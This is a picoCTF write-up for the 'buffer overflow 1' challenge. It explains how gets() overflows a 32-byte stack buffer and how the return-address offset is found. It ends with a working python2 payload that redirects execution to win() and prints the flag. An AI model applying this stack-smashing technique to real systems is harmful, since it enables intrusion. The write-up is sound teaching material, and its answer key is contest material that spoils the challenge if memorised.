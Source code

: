 # buffer overflow 1 (pwn, 200pts)

> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this
> [program](./assets/vuln)?

Running [`file`](https://linux.die.net/man/1/file), we see this is a 32-bit ELF binary:

```sh
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux
2.6.32, BuildID[sha1]=5235698279b65da569a42e74772f0d7f3057f8b8, not stripped
```

Mark the binary as executable and run it:

```sh
$ echo "picoCTF{flag}" > flag.txt
$ ./vuln
Please enter your string: 
test
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```

The output hints that we probably need to overwrite the return address to jump somewhere else - we can verify this by
entering several `A` characters and seeing the return address change to `0x41414141` (the hex code for `A` is `41`):

```
$ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault (core dumped)
```

Looking at the [source code](./assets/vuln.c), we see that `main` calls the function `vuln`, which reads input into a
32-byte char array. However, [`gets`](http://www.cplusplus.com/reference/cstdio/gets/) doesn't restrict the number of
characters that are read, which is the cause of the buffer overflow:

```c
#define BUFSIZE 32

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

There's also a function `win` that prints the flag but is never called:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

We therefore need to overwrite the return address to the address of the `win` function, which we find to be `0x080485cb`
using [`objdump`](https://linux.die.net/man/1/objdump):

```
$ objdump -t vuln | grep win
080485cb g     F .text	00000064              win
```

We can work out how many characters we need to input before we overwrite the return address using a string of unique
characters:

```
$ ./vuln
Please enter your string: 
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
Okay, time to return... Fingers Crossed... Jumping to 0x76757473
Segmentation fault (core dumped)
```

`0x76757473` is hex for `vuts` (this is reversed because x86 is
[little-endian](https://en.wikipedia.org/wiki/Endianness#Little-endian)).  We now know we need to send 44 characters
before we start overwriting the return address, and that we need to replace `stuv` with the hex values `cb`, `85`, `04`,
`08`.

We could also have done this by disassembling the `vuln` function and looking at how much space on the stack is
allocated for local variables, then worked backwards:

```
$ gdb -batch -ex "disassemble vuln" vuln
Dump of assembler code for function vuln:
   0x0804862f <+0>:	push   ebp
   0x08048630 <+1>:	mov    ebp,esp
   0x08048632 <+3>:	sub    esp,0x28 # space allocated on stack for local variables
   0x08048635 <+6>:	sub    esp,0xc
   0x08048638 <+9>:	lea    eax,[ebp-0x28]
   0x0804863b <+12>:	push   eax
   0x0804863c <+13>:	call   0x8048430 <gets@plt>
   0x08048641 <+18>:	add    esp,0x10
   0x08048644 <+21>:	call   0x80486c0 <get_return_address>
   0x08048649 <+26>:	sub    esp,0x8
   0x0804864c <+29>:	push   eax
   0x0804864d <+30>:	push   0x80487d4
   0x08048652 <+35>:	call   0x8048420 <printf@plt>
   0x08048657 <+40>:	add    esp,0x10
   0x0804865a <+43>:	nop
   0x0804865b <+44>:	leave
   0x0804865c <+45>:	ret
End of assembler dump.
```

We see 40 (0x28) bytes are allocated for local variables.  Add 4 bytes for the saved base pointer
([x86 assembly overview](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html)) and we get 44 as before.

---

Send 44 characters and then the address of the `win` function (reversed) to modify the return address and get the flag:

```
python2 -c "print 'A'*44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{flag}
Segmentation fault (core dumped)
```

We can now run the same command on the server to retrieve the real flag:

```
python2 -c "print 'A'*44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}
Segmentation fault (core dumped)
```
